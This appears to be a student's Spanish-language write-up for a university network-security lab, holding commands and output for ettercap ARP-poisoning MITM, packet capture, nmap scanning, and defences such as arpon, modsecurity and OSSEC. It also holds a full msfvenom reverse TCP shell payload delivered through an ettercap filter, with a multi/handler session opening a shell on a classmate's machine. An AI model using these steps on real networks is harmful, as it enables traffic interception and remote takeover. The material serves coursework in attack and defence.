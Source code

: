 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>


</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>
	
</details>
Defensa : 
Tirar abajo servidor web del compañero.
-- Levantar cosas para protegernos de sus ataques
slowlories
slowget
Visualizar las URL del compañero
fichero pcap : uno propio y uno del compañero.
Metasploit
ett.filter
Information gethering : direccionamiento, transferencia de zona.
Prometeus.  grafana : Dashboard.
OSSEC. (Bajar timeouts a 120s)
arpon
